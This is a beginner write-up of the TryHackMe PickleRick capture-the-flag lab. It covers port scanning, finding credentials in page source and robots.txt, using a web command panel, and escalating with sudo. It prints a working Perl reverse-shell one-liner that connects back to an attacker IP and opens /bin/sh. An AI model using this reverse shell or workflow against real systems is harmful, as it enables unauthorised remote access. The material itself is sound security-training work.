 # TryHackMe-PickleRick CTF

PickleRick is a free beginner level webapplication kinda CTF.

## NMAP
Like always we are going to fire up our nmap scan on the box to look for open ports

```
nmap -T4 -A -p- 10.10.208.39
```
Here
-T4 tells the speed of scanning 
-A  tells to look for all 
-p- tells to look for ports

and in the end is the box ip (machine ip)

<a href="https://imgur.com/SDGCB0V"><img src="https://i.imgur.com/SDGCB0V.png" title="source: imgur.com" /></a>

Here we can see that there are 2 open ports

SSH (22)
HTTP (80)

So first we will try to exploit HTTP

<a href="https://imgur.com/QUpMxwe"><img src="https://i.imgur.com/QUpMxwe.png" title="source: imgur.com" /></a>

This is the home page that is loaded upon entering the ip address.



<a href="https://imgur.com/GmtVzO3"><img src="https://i.imgur.com/GmtVzO3.png" title="source: imgur.com" /></a>

If we try to look at the source we can see Wubbalubbadubdubthat it's telling us that there's a user named *"R1ckRul3s*" so we are going to use it later when we try to ssh are way into the box.

## Port 80

<a href="https://imgur.com/GmtVzO3"><img src="https://i.imgur.com/GmtVzO3.png" title="source: imgur.com" /></a>

I tried to see if "robots.txt" was accessable and what I found was a text "Wubbalubbadubdub" , i don't know what it means by lets see what elese we can find.

<a href="https://imgur.com/2oUzEDd"><img src="https://i.imgur.com/2oUzEDd.png" title="source: imgur.com" /></a>

### Dirbuster

On bruteforcing directory we find out that there is a login page on the website 



<a href="https://imgur.com/POimBHs"><img src="https://i.imgur.com/POimBHs.png" title="source: imgur.com" /></a>



<a href="https://imgur.com/Xpwynbf"><img src="https://i.imgur.com/Xpwynbf.png" title="source: imgur.com" /></a>

On submitting the username and the text we found on robots.txt we are able to login to the potral

<a href="https://imgur.com/56hyQT8"><img src="https://i.imgur.com/56hyQT8.png" title="source: imgur.com" /></a>

From here we can execute commands like "pwd" or "whoami" which will give result of these commands so we can use this as a shell.

<a href="https://imgur.com/pl7RhmL"><img src="https://i.imgur.com/pl7RhmL.png" title="source: imgur.com" /></a>

On the current directory on giving "ls" command we can see what is that current directory also on looking at the source of the page we can find a base64 text but it doesn't really decode into something.

<a href="https://imgur.com/XqGmf1o"><img src="https://i.imgur.com/XqGmf1o.png" title="source: imgur.com" /></a>

But we still can't access the files on the webpage.

I headed over to pentest monkey

<a href="https://imgur.com/2akwyJK"><img src="https://i.imgur.com/2akwyJK.png" title="source: imgur.com" /></a>

Tried the nc(netcat),php,bash,python2 reverse shell but they didn't work so then i tired the perl reverse shell however we can use python3 instead of python2 to execute python reverse shell.
```
perl -e 'use Socket;$i="10.8.94.60";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

<a href="https://imgur.com/mlpDKJg"><img src="https://i.imgur.com/mlpDKJg.png" title="source: imgur.com" /></a>

It gave me a reverse shell on my terminal.

### First Ingredient

So now for the first ingredient I had no problem in viewing "Sup3rS3cretPickl3Ingred.txt".

### Second Ingredient

For second ingredient I moved around the directories and found something named "second ingredients".

<a href="https://imgur.com/DjlG05n"><img src="https://i.imgur.com/DjlG05n.png" title="source: imgur.com" /></a>

For viewing this file as there is a space in between so in linux you have to use '\ ' backslash + space for entering second string of a file.

### Third Ingredient

For the third ingredient there are two ways:

1) Since we can ran any command by writing "sudo" before it so one way is to look into "ubuntu" folder and there we have a file called ".bash_history"

<a href="https://imgur.com/QMFyVvs"><img src="https://i.imgur.com/QMFyVvs.jpg" title="source: imgur.com" /></a>

2) Another method for getting the third ingredient is by accessing "root" folder.

<a href="https://imgur.com/b7SOPCc"><img src="https://i.imgur.com/b7SOPCc.jpg" title="source: imgur.com" /></a>

3) Or you can run "sudo bash" , that would make you a root user.

You have successfully completed this CTF.
